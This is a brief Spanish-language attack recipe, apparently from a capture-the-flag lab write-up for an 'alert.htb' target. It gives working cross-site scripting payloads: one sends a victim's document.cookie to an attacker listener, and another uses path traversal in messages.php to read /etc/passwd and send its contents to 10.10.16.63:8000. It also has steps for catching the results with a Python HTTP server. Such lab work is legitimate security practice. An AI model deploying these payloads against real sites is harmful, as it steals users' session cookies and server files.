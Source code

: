 
1. Nos ponemos por escucha con python3 -m http.server 8000
2. Mandamos el payload
payload: 

### payload robar cookie

```javascript
<script>fetch('http://TU_IP:8000/?c=' + document.cookie)</script>
```
3.  Esperamos que lleguen peticiones.

### payload LFI
<script> fetch("http://alert.htb/messages.php?file=../../../../../../../etc/passwd").then(response => response.text()).then(data => fetch("http://10.10.16.63:8000/?file=" + encodeURIComponent(data))); </script>
